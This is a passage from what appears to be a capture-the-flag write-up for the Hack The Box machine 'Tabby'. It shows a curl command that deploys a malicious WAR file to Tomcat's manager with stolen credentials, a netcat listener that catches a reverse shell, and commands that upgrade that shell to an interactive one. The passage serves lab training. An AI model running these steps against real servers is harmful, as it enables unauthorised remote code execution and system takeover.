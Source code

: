 [https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy\_A\_New\_Application\_Archive\_(WAR)\_Remotely](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)

| curl -v -u &#39;tomcat:$3cureP4s5w0rd123!&#39; -T shell.war &#39;http://tabby.htb:8080/manager/text/deploy?path=/shell&amp;update=true&#39; |
| --- |

![](/img/tabby/2020-12-09_07-26.png)

Time to get that reverse-shell, set up a nc listener.

| nc -lnvp 1234 |
| --- |

Visiting [http://megahosting.htb:8080/shell/](http://megahosting.htb:8080/shell/)will trigger a reverse shell to my listener

![](/img/tabby/2020-12-09_07-32.png)

![](/img/tabby/2020-12-09_07-34.png)


The shell is pretty rubbish, i&#39;m going to spend a little time getting some more functionality.

| python3 -c &#39;import pty;pty.spawn(&quot;bash&quot;)&#39;
 tomcat@tabby:/var/lib/tomcat9$ ^Z
 [1]+ Stopped nc -lnvp 443
 kali@kali# stty raw -echo; fg
 nc -lnvp 443
 reset
 Terminal type? screen |
| --- |
